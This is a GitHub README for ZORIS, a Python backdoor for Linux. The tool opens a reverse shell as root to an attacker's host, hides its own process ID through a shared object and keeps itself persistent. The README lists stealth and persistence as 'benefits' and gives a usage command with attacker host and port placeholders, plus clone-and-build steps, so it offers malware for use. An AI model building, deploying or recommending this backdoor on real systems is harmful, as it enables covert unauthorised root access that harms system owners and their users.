


<h1 align="center">「🚪」ZORIS</h1>

<p align="center"></p>

<p align="center">ZORIS is a simple backdoor created in python in order to bring the shell of a linux system to a machine through the reverse connection, but make no mistake, ZORIS has a shared object (so) that allows you to hide the PID of the backdoor installed on the system, keeping it out of sight of other users inside the machine and being silent. It is necessary to be the root user, but by activating it, its persistence is certain.</p>

### Benefits:

* Reverse shell connection as root

* Hide the PID

* Persistence

## Tested linux distro

- [x] Arch Linux
- [X] CentOS
- [X] Debian
- [ ] Fedora
- [ ] openSUSE
- [ ] Gentoo

## How to use

<p align="center"></p>

```
# ./zoris -rh <ATTACKER HOST> -rp <ATTACKER PORT>
```

## Installation

```
# git clone https://github.com/MrEmpy/zoris.git
# chmod +x build.sh
# ./build.sh
```

Note: If you prefer, we have the ZORIS static binary in the ```static``` directory with all dependencies inserted.

## Available architecture of static binary

- [x] amd64
- [ ] i386
- [ ] arm64
- [ ] armv6

